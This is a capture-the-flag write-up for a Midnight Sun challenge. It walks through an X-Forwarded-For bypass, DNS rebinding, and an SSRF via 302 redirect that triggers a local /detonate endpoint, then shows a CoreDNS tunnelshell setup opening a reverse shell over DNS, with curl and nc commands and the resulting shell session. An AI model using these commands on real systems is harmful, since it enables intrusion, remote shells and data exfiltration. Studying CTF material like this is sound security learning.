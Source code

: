 #Exploitation

## Putting together the inital request:

1) X-Forwarded-For bypass:
Include the header with the IP

2) IP check bypass
Include multiple IPs in a domain entry or use DNS rebinding (like rbndr.us). DNS Rebinding was the intended solution

3) How to use /detonate and satisfy the 127.0.0.1 ip check:

Send a 302 redirect to SSRF the webserver into making a local request calling the detonate endpoints.

python3 redir.py 80 http://127.0.0.1:15555/detonate?name=supersecretabc123xyz\&url=http://0x0y0z/payload

Our trigger looks like this
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/

## Stage 2 -- Detonator

The hint for the challenge says `DeNiS Sergeev wants a secret mission payload.`, alluding to DNS. 

1) Run coredns with the https://github.com/adc/coredns-tunnelshell plugin installed. 

You can use a configuration like this:

tunnel.yourdomain.com {
  hosts {
	95.173.136.72 kgb.tunnel.yourdomain.com
	1.2.3.4 kgb.tunnel.yourdomain.com
	fallthrough
  }

  tunnelshell

  log
  errors
}


curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/


2) Connect to the coredns socket and wait for a connection to show up
nc localhost 1337

In coredns you'll know when the reverse tunnel works when you see requests coming in

[INFO] 162.158.104.220:34913 - 24862 "TXT IN 2420-0-660faeac.tunnel.yourdomain.com. udp 63 true 1452" NOERROR qr,aa 100 0.000447496s
[INFO] 162.158.104.148:59983 - 7850 "TXT IN 00-1-2317440.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000248969s
[INFO] 162.158.104.148:22594 - 53984 "TXT IN 00-2-5d586564.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000110636s
[INFO] 162.158.104.148:63962 - 48204 "TXT IN 00-3-105ae3a3.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00010058s
[INFO] 162.158.104.149:65071 - 57369 "TXT IN 00-4-22e00cc.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000239648s
[INFO] 162.158.104.148:29410 - 15723 "TXT IN 00-5-6c60fe9a.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00022385s
[INFO] 162.158.104.220:46404 - 39031 "TXT IN 00-6-4aae60dc.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000100155s

```
bash-3.2# nc localhost 1337
[+] connected to coredns-tunnelshell

$ uname -a
Linux dbed26620181 5.17.0-051700-generic #202203202130 SMP PREEMPT Sun Mar 20 21:33:41 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
$ ls
bin	     etc    lib64				 mnt   run   tmp
boot	     home   libx32				 opt   sbin  usr
detonations  lib    media				 proc  srv   var
dev	     lib32  midnightsun.ctf.kgbfskfsb_detonator  root  sys
$ ls -al
total 6416
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 .
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 ..
drwxr-xr-x   1 root   root    4096 Apr  4 04:30 .do
-rwxr-xr-x   1 root   root       0 Apr  4 04:31 .dockerenv
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 bin -> usr/bin
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 boot
drwxr-xr-x   2 nobody root    4096 Apr  4 04:20 detonations
drwxr-xr-x   5 root   root     340 Apr  4 04:31 dev
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 etc
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 home
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 lib -> usr/lib
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root      10 Mar 15 11:49 libx32 -> usr/libx32
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 media
-rwxr-xr-x   1 root   root 6501290 Apr  4 04:30 midnightsun.ctf.kgbfskfsb_detonator
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 mnt
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 opt
dr-xr-xr-x 418 root   root       0 Apr  4 04:31 proc
drwx------   2 root   root    4096 Mar 15 11:52 root
drwxr-xr-x   5 root   root    4096 Mar 15 11:52 run
lrwxrwxrwx   1 root   root       8 Mar 15 11:49 sbin -> usr/sbin
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 srv
dr-xr-xr-x  13 root   root       0 Apr  4 04:31 sys
drwxrwxrwt   1 root   root    4096 Apr  3 00:05 tmp
drwxr-xr-x  14 root   root    4096 Mar 15 11:49 usr
drwxr-xr-x   1 root   root    4096 Mar 15 11:52 var
$ ls -R .do
.do:
you

.do/you:
see

.do/you/see:
the

.do/you/see/the:
answer

.do/you/see/the/answer:
runme
$ .do/you/see/the/answer/runme
1070352547 +1 = ?
1070352548
midnight{flag}

```


## MISC:

Some teams were using chashell and it failed for them. Chashell has a bug where they dont set the authoritative flag.
You can patch their server code with	

```
m.MsgHdr.Authoritative = true 
```


## Other solutions

Some teams decided to re-exploit 'kgbfskfsb' as an alternative to DNS. This is a bit harder and unreliable, but a very valid
way to exfiltrate data back out of the system. When exploiting the service it would fetch the team's URL to relay information.

The docker set up does not stop this




